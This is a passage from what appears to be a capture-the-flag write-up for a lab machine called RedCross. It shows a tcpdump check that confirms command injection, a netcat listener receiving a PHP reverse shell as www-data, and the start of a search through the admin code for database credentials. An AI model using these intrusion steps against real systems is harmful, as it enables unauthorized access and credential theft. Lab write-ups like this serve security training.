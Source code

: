 ```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:35:48.819332 IP intra.redcross.htb > kali: ICMP echo request, id 16518, seq 1, length 64
13:35:48.819376 IP kali > intra.redcross.htb: ICMP echo reply, id 16518, seq 1, length 64

```

Since I can see output, I can run other commands:

![1554226655779](https://0xdfimages.gitlab.io/img/1554226655779.png)

And I can get a shell using a `php` rev shell:

![1554229271639](https://0xdfimages.gitlab.io/img/1554229271639.png)

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:46998.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I can see `user.txt` in penelope’s homedir, but I can’t access it:

```

www-data@redcross:/home/penelope$ cat user.txt 
cat: user.txt: Permission denied

```

### Path 2.2: Shell As “penelope”

#### Find postgresql Creds

I know that the website can create and manage users for the jail. Looking at the files in the admin dir, `actions.php` jumps out:

```

www-data@redcross:/var/www/html/admin/pages$ ls
actions.php  bottom.php  cpanel.php  firewall.php  header.php  login.php  users.php

```

I’m particularly interested in the code that adds users:
